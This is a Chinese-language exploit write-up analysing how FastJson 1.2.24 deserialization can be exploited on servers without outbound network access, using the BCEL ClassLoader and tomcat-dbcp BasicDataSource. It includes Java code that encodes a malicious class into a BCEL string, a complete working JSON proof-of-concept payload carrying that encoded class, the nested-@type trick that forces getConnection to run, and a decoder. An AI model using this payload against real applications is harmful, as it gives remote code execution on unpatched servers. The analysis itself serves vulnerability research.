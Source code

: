 # FastJson不出网利用BCEL分析

## 前言

关于FastJson的漏洞分析之前也写过了，这次是针对一个场景进行分析，那就是FastJson不出网时的利用方法。当目标服务器没有外网时，就无法实现反弹shell连接外网攻击机，这个时候自然也无法使用JNDI注入，这个时候再想利用，就需要跳过从远程服务器中下载class文件的方式，能不能直接传入字节码。BCEL恰好就实现了这一点。

关于BCEL的发展历史和介绍可以参考：[BCEL ClassLoader去哪了](https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html#0x01-bcel)

BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。

> BCEL这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。
>
> 在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode

## 环境搭建

pom文件的dependency内容如下：

```xml
<dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat/dbcp -->
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>dbcp</artifactId>
            <version>6.0.53</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-dbcp</artifactId>
            <version>9.0.8</version>
        </dependency>
```

## 利用分析

首先来看生成BCEL字节码，

看P牛的文章了解到bcel包中ClassLoader类，它的方法中重写了`ClassLoader#loadClass()`方法

满足其条件，即可执行恶意代码

![image-20230619204853894](img/image-20230619204853894.png)

前面的if限制条件也要注意满足，才可以执行到这一步。如果`$$BCEL$$`后面有内容，那么就满足这个条件，进而会调用`createClass()`方法，最后去将字节码进行一个解码操作。

![image-20230619205247547](img/image-20230619205247547.png)

那么在构造静态的恶意代码时就可以先将class字节码进行encode

```java
package org.example.bcel;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class BCEL_Class {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evilclass.class);
        String code = Utility.encode(javaClass.getBytes(),true);
        System.out.println("$$BCEL$$"+code);
//        Class.forName("$$BCEL$$" + code, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();

    }
}
```

![image-20230619202518886](img/image-20230619202518886.png)

恶意类被加载，会执行。然后将加密后的字节码添加进POC，这里对POC进行执行验证

```java
package org.example.bcel;

import com.alibaba.fastjson.JSON;

public class BCEL {
    public static void main(String[] args) {
        String payload =
                "{\n" +
                        "    {\n" +
                        "        \"x\":{\n" +
                        "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                        "                \"driverClassLoader\": {\n" +
                        "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                        "                },\n" +
                        "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$c2$40$U$3d$D$95B$zo$9f$88$PV$82$L$baq$87qcpc$7dD$M$ae$87qR$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1$b6$S016$99$7br$cf$dcs$e6$cc$f4$f3$eb$fd$D$c01j$Gt$ac$ZX$c7F$g$9b$Rn$e9$d8$d6Q$d1$b1$c3$90$3aQ$9e$KO$Z$92$f5F$97A$3b$f3$l$qC$deV$9e$bc$g$Pz2$b8$e3$3d$97$98$92$ed$L$eevy$a0$a2$7eNj$e1$a3$g1Tm$3fp$y9$e5$83$a1$x$ad$9e$90$ae$d5$9e$uW$b8$7c4j1$a4O$84$3b$3f$q$db$J$b9x$ba$e4$c3$d8$80b0$Y$j$7f$i$Iy$ae$o$c3$dcB$d7$ec$f3$J7$91FFG$d5$c4$$$f6$c8$88$S$88$a6$9cJ$T$fb8$60$uG3$96$cb$3d$c7jO$85$i$86$ca$f7$Y$w$ff$87a$u$y$r$d7$bd$be$U$nCqI$dd$8e$bdP$N$u$87$e1$c8p$d1$ac$d7$h$f6$9f$Z$ba$97FI$E$c3a$fd$d7n$t$M$94$e7$b4$7e$Ln$C_Hz$I$d4$90$a2$3f$R$7d$J$b0$e8fT$N$ea$yBF$b8r$f4$K6$8b$b7W$a9$a6b2$J$93$aa$f93$80$yr$84i$e4$X$e2$8b$d8$M$c8$bd$nQJ$be$40$bb$7f$86v1$8b$b9$M$e9V$c8$nr$cb$RF$9e$Z$8a$90$r$H3$3e$H$u$d0$d2$91$b0u$UA$a2RL$97$bf$B1K$v4$3d$C$A$A\"\n" +
                        "        }\n" +
                        "    }: \"x\"\n" +
                        "}";
        JSON.parse(payload);
    }
}
```

结果成功

![image-20230619202549452](img/image-20230619202549452.png)

调试过程利用链走向与普通的fastjson反序列化大差不差，只是需要注意这里的payload，

> poc可以分成两种，JSON.parseObject()与 parse()，因为parseObject() 会额外的将 Java 对象转为 JSONObject 对象，即调用 JSON.toJSON()，在处理过程中会调用所有的 setter 和 getter 方法，所以poc中少一步嵌套的操作

是嵌套了两层`@type`，也就两次触发`key.toString()`

![image-20230619212001926](img/image-20230619212001926.png)

需要触发 `BasicDataSource.getConnection()` 方法。由于FastJson中的 `JSON.parse()` 会识别并调用目标类的 setter 方法以及某些满足特定条件的 getter 方法，然而 `getConnection()` 并不符合特定条件，所以正常来说在 FastJson 反序列化的过程中并不会被调用。
这里的POC利用了 `JSONObject`对象的 `toString()` 方法实现了突破。JSONObject是Map的子类，在执行toString() 时会将当前类转为字符串形式，会提取类中所有的Field，自然会执行相应的 getter 、is等方法。所以在 `{"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层{}，反序列化生成一个 `JSONObject` 对象并放在 `JSON Key` 的位置上，在 JSON 反序列化的时候，FastJson 会对 `JSON Key` 自动调用 `toString()` 方法。

而将POC中漏洞点换成`parseObject()`就不需要二次嵌套了。

## BCEL解码

```java
package org.example.bcel;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.FileOutputStream;
import java.io.IOException;

public class BCEL_Decode {
        public static void main(String[] args) throws IOException {
            String encode = "$l$8b$I$A$A$A$A$A$A$AuQ$cbN$c2$40$U$3d$D$95B$zo$9f$88$PV$82$L$baq$87qcpc$7dD$M$ae$87qR$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1$b6$S016$99$7br$cf$dcs$e6$cc$f4$f3$eb$fd$D$c01j$Gt$ac$ZX$c7F$g$9b$Rn$e9$d8$d6Q$d1$b1$c3$90$3aQ$9e$KO$Z$92$f5F$97A$3b$f3$l$qC$deV$9e$bc$g$Pz2$b8$e3$3d$97$98$92$ed$L$eevy$a0$a2$7eNj$e1$a3$g1Tm$3fp$y9$e5$83$a1$x$ad$9e$90$ae$d5$9e$uW$b8$7c4j1$a4O$84$3b$3f$q$db$J$b9x$ba$e4$c3$d8$80b0$Y$j$7f$i$Iy$ae$o$c3$dcB$d7$ec$f3$J7$91FFG$d5$c4$$$f6$c8$88$S$88$a6$9cJ$T$fb8$60$uG3$96$cb$3d$c7jO$85$i$86$ca$f7$Y$w$ff$87a$u$y$r$d7$bd$be$U$nCqI$dd$8e$bdP$N$u$87$e1$c8p$d1$ac$d7$h$f6$9f$Z$ba$97FI$E$c3a$fd$d7n$t$M$94$e7$b4$7e$Ln$C_Hz$I$d4$90$a2$3f$R$7d$J$b0$e8fT$N$ea$yBF$b8r$f4$K6$8b$b7W$a9$a6b2$J$93$aa$f93$80$yr$84i$e4$X$e2$8b$d8$M$c8$bd$nQJ$be$40$bb$7f$86v1$8b$b9$M$e9V$c8$nr$cb$RF$9e$Z$8a$90$r$H3$3e$H$u$d0$d2$91$b0u$UA$a2RL$97$bf$B1K$v4$3d$C$A$A";
            byte[] decode = Utility.decode(encode,true);
            FileOutputStream fileOutputStream = new FileOutputStream("Decode.class");
            fileOutputStream.write(decode);
        }
    }
```

将解码后的字节码写入Decode.class，在IDEA中直接打开即可看到恶意类的静态方法中的内容。

![image-20230619215343862](img/image-20230619215343862.png)

## 参考文章

https://forum.butian.net/share/2040	

https://blog.csdn.net/weixin_54648419/article/details/124513950

https://blog.csdn.net/weixin_54902210/article/details/125580519

https://blog.csdn.net/weixin_49248030/article/details/127989449

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

https://xz.aliyun.com/t/12492